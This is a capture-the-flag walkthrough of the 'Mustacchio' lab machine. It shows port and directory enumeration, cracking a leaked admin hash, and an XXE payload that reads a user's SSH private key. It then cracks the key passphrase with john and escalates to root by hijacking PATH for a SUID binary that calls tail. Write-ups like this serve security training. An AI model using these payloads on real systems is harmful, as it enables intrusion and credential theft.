




# Nmap: 
---
```bash
nmap -T4 -A -p 22,80,8765 10.113.131.123 -v -oN nmap
```

```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
|_http-server-header: Apache/2.4.18 (Ubuntu)
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- lets start by looking at booth web servers 

# Web Servers: 
---
- this is the `/` from the web server on port `8765`: 



- we have to come back to this web server, because we don't have any credentials at this time  
- so lets start enumerating the web server on port `80`:  


```bash
===============================================================
[+] Url:                     http://10.113.131.123/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.html                (Status: 403) [Size: 279]
.php                 (Status: 403) [Size: 279]
images               (Status: 301) [Size: 317] [--> http://10.113.131.123/images/]
.htm                 (Status: 403) [Size: 279]
.                    (Status: 200) [Size: 1752]
fonts                (Status: 301) [Size: 316] [--> http://10.113.131.123/fonts/]
custom               (Status: 301) [Size: 317] [--> http://10.113.131.123/custom/]
.htaccess            (Status: 403) [Size: 279]
.php3                (Status: 403) [Size: 279]
.phtml               (Status: 403) [Size: 279]
.htc                 (Status: 403) [Size: 279]
.php5                (Status: 403) [Size: 279]
.html_var_DE         (Status: 403) [Size: 279]
.php4                (Status: 403) [Size: 279]
server-status        (Status: 403) [Size: 279]
.htpasswd            (Status: 403) [Size: 279]
.html.               (Status: 403) [Size: 279]
.html.html           (Status: 403) [Size: 279]
.htpasswds           (Status: 403) [Size: 279]
.htm.                (Status: 403) [Size: 279]
.htmll               (Status: 403) [Size: 279]
.phps                (Status: 403) [Size: 279]
.html.old            (Status: 403) [Size: 279]
.ht                  (Status: 403) [Size: 279]
.html.bak            (Status: 403) [Size: 279]
.htm.htm             (Status: 403) [Size: 279]
.htgroup             (Status: 403) [Size: 279]
.hta                 (Status: 403) [Size: 279]
.html1               (Status: 403) [Size: 279]
.html.LCK            (Status: 403) [Size: 279]
.html.printable      (Status: 403) [Size: 279]
.htm.LCK             (Status: 403) [Size: 279]
.htaccess.bak        (Status: 403) [Size: 279]
.htmls               (Status: 403) [Size: 279]
.html.php            (Status: 403) [Size: 279]
.htx                 (Status: 403) [Size: 279]
.htm2                (Status: 403) [Size: 279]
.htlm                (Status: 403) [Size: 279]
.html-               (Status: 403) [Size: 279]
.htuser              (Status: 403) [Size: 279]
```

- in `custome/js` I found this: 


- I downloaded `user.bak`  and opened it: 
```bash
admin1868e36a6d2b17d4c2745f165<Redacted>
```

- the second part is `MD5` and is the password from `admin` 
- I used [crackstation](https://crackstation.net/) to crack the hash
- with these credentials we can now log into the second web server 

## XXE Injection: 
---



- before I looked at the comment form and realized that we can use `XXE injection` , I found this in the source code: 

```bash
<!-- Barry, you can now SSH in using your key!-->
```

- we can use this information to later read `Barrys` private ssh key with `XXE Injection` 
- I also saw this in the source code: 

```bash
<script type="text/javascript">
	//document.cookie = "Example=/auth/dontforget.bak";
	function checktarea() {
		let tbox = document.getElementById("box").value;
		if (tbox == null \| tbox.length == 0) {
		alert("Insert XML Code!")
		}
	}
</script>
```

- I also downloaded this file and got an example of how the structure of the comment should look: 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read...</com>
```

- so I crafted a payload for the `XXE Injection`: 
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa" >]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&xxe;</com>
</comment>
```

- and got the `ssh` private key: 



- before we can log into `Barry` we have to crack the private key to get the `passphrase` 
- we can do this with `ssh2john` and `john`: 

```bash
ssh2john id_rsa > hash
john --wordlist=/usr/share/rockyou.txt hash 
```

- after 5 seconds the hash was cracked: 
```bash
<Redacted>       (id_rsa)
```

- now we can log in: 
```bash
ssh -i id_rsa barry@10.113.131.123
```

# user.txt: 
---
- the `user.txt` is located in Barry's home directory and we can read it with Barry: 
```
6<Redacted>1
```

# root.txt: 
---
- when I checked all executable's with `SUID` bit set I found this: 
```bash
barry@mustacchio:/$ find / -type f -perm -04000 -ls 2>/dev/null
    ...
    24361     76 -rwsr-xr-x   1 root     root          75304 Mar 26  2019 /usr/bin/gpasswd
   257605     20 -rwsr-xr-x   1 root     root          16832 Jun 12  2021 /home/joe/live_log
      120     44 -rwsr-xr-x   1 root     root          44168 May  7  2014 /bin/ping
     ...
```

- lets take a look at `live_log`: 
```bash
barry@mustacchio:/home/joe$ ./live_log 
192.168.131.165 - - [18/Jul/2026:18:21:12 +0000] "GET /auth/dontforget.bak HTTP/1.1" 200 996 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:22:40 +0000] "GET /home.php HTTP/1.1" 200 1077 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:29:55 +0000] "POST /home.php HTTP/1.1" 200 1123 "http://10.113.131.123:8765/home.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:30:07 +0000] "POST /home.php HTTP/1.1" 200 1552 "http://10.113.131.123:8765/home.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:30:56 +0000] "POST /home.php HTTP/1.1" 200 2572 "http://10.113.131.123:8765/home.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:33:35 +0000] "GET / HTTP/1.1" 200 728 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:33:35 +0000] "GET /favicon.ico HTTP/1.1" 404 209 "http://10.113.131.123:8765/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:33:40 +0000] "POST /auth/login.php HTTP/1.1" 302 5 "http://10.113.131.123:8765/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:33:40 +0000] "GET /home.php HTTP/1.1" 200 1077 "http://10.113.131.123:8765/" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
192.168.131.165 - - [18/Jul/2026:18:33:47 +0000] "POST /home.php HTTP/1.1" 200 2572 "http://10.113.131.123:8765/home.php" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/150.0.0.0 Safari/537.36"
```

- as the named suggests its a live log from the web server on port `8765` 
- lets analyze it with `strings`: 
```bash
barry@mustacchio:/home/joe$ strings live_log 
...
[]A\A]A^A_
Live Nginx Log Reader
tail -f /var/log/nginx/access.log
:*3$"
GCC: (Ubuntu 9.3.0-17ubuntu1~20.04) 9.3.0
crtstuff.c
deregister_tm_clones
__do_global_dtors_aux
...
```

- we can see that the `tail` command gets executed 
- lets create an `evil` tail command in `/tmp` and add `/tmp` to `PATH`: 
```bash
barry@mustacchio:/tmp$ echo "/bin/bash" > tail 
barry@mustacchio:/tmp$ chmod +x tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
```

- lets now run `live_log` again to get a `root shell`: 
```bash
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# 
```

- we can now read the `root.txt`: 
```bash
3<Redacted>5
```